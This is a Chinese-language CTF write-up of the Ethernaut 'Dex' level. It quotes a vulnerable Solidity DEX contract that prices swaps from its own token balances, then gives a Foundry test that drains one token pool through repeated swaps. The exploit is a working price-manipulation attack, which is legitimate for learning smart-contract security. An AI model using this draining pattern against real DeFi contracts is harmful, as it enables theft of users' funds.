

> The goal of this level is for you to hack the basic [DEX](https://en.wikipedia.org/wiki/Decentralized_exchange) contract below and steal the funds by price manipulation.
>
> You will start with 10 tokens of `token1` and 10 of `token2`. The DEX contract starts with 100 of each token.
>
> You will be successful in this level if you manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.
>
>  
>
> ### Quick note
>
> Normally, when you make a swap with an ERC20 token, you have to `approve` the contract to spend your tokens for you. To keep with the syntax of the game, we've just added the `approve` method to the contract itself. So feel free to use `contract.approve(contract.address, <uint amount>)` instead of calling the tokens directly, and it will automatically approve spending the two tokens by the desired amount. Feel free to ignore the `SwappableToken` contract otherwise.
>
>  Things that might help:
>
> - How is the price of the token calculated?
> - How does the `swap` method work?
> - How do you `approve` a transaction of an ERC20?
> - Theres more than one way to interact with a contract!
> - Remix might help
> - What does "At Address" do?


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract Dex is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    function addLiquidity(address token_address, uint256 amount) public onlyOwner {
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function swap(address from, address to, uint256 amount) public {
        require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapPrice(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint256 amount) public {
        SwappableToken(token1).approve(msg.sender, spender, amount);
        SwappableToken(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint256) {
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableToken is ERC20 {
    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```


```
https://medium.com/@this_post/ethernaut-22-dex-modified-version-writeups-4330c33a0743
```


这其实就是一个有趣的现象：


good. FInance学少了 :)


但自己打的时候交易失败，不知道为什么。。。隔天再试）


2025年3月28日 UPD.

学着用foundry写poc。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts/contracts/token/ERC20/IERC20.sol";
import "openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";
import "openzeppelin-contracts/contracts/access/Ownable.sol";
import {Test, console} from "forge-std/Test.sol";
import "../src/Dex.sol";

contract DexEXP is Test {
    address user = address(0x123);
    address token1;
    address token2;
    Dex dex;

    function setUp() public {
        dex = new Dex();
        SwappableToken token1Contract = new SwappableToken(
            address(dex), 
            "Token1", 
            "TKN1", 
            10000
        );
        SwappableToken token2Contract = new SwappableToken(
            address(dex), 
            "Token2", 
            "TKN2", 
            10000
        );
        token1 = address(token1Contract);
        token2 = address(token2Contract);

        token1Contract.transfer(user, 10);
        token2Contract.transfer(user, 10);

        token1Contract.transfer(address(dex), 100);
        token2Contract.transfer(address(dex), 100);

        dex.setTokens(token1, token2);

        // 通过 Dex 为 user 授权
        vm.prank(user);
        dex.approve(address(dex), type(uint256).max);
    }

    function showBalances() public view {
        console.log("=========================================================");
        console.log("User token1 balance:", IERC20(token1).balanceOf(user));
        console.log("User token2 balance:", IERC20(token2).balanceOf(user));
        console.log("Dex token1 balance:", IERC20(token1).balanceOf(address(dex)));
        console.log("Dex token2 balance:", IERC20(token2).balanceOf(address(dex)));
    }

    function test_Swap() public {
        vm.startPrank(user);
        showBalances();

        while (IERC20(token1).balanceOf(address(dex)) > 0 && IERC20(token2).balanceOf(address(dex)) > 0) {
            uint256 userToken1Balance = IERC20(token1).balanceOf(user);
            uint256 userToken2Balance = IERC20(token2).balanceOf(user);
            uint256 dexToken1Balance = IERC20(token1).balanceOf(address(dex));
            uint256 dexToken2Balance = IERC20(token2).balanceOf(address(dex));

            // Swap token1 -> token2
            if (userToken1Balance > 0) {
                uint256 swapAmount = userToken1Balance;
                uint256 expectedToken2 = dex.getSwapPrice(token1, token2, swapAmount);
                if (expectedToken2 > dexToken2Balance) {
                    // 调整输入量，确保不超过 Dex 的 token2 余额
                    swapAmount = (dexToken2Balance * dexToken1Balance) / dexToken2Balance;
                    if (swapAmount > userToken1Balance) break;
                }
                if(swapAmount > 0){
                    dex.swap(token1, token2, swapAmount);
                    showBalances();
                }
            }

            // Swap token2 -> token1
            if (userToken2Balance > 0) {
                uint256 swapAmount = userToken2Balance;
                uint256 expectedToken1 = dex.getSwapPrice(token2, token1, swapAmount);
                if (expectedToken1 > dexToken1Balance) {
                    // 调整输入量，确保不超过 Dex 的 token1 余额
                    swapAmount = (dexToken1Balance * dexToken2Balance) / dexToken1Balance;
                    if (swapAmount > userToken2Balance) break;
                }
                if(swapAmount > 0){
                    dex.swap(token2, token1, swapAmount);
                    showBalances();
                }
            }
        }

        dex.swap(token2,token1,14);
        showBalances();
        uint256 dexToken1Final = IERC20(token1).balanceOf(address(dex));
        uint256 dexToken2Final = IERC20(token2).balanceOf(address(dex));
        assert(dexToken1Final == 0 || dexToken2Final == 0);
        console.log("[+] Solved!");

        vm.stopPrank();
    }

    function test_Nonsense() public {
        console.log("[+] test_Nonsense ... ");
    }
}
```

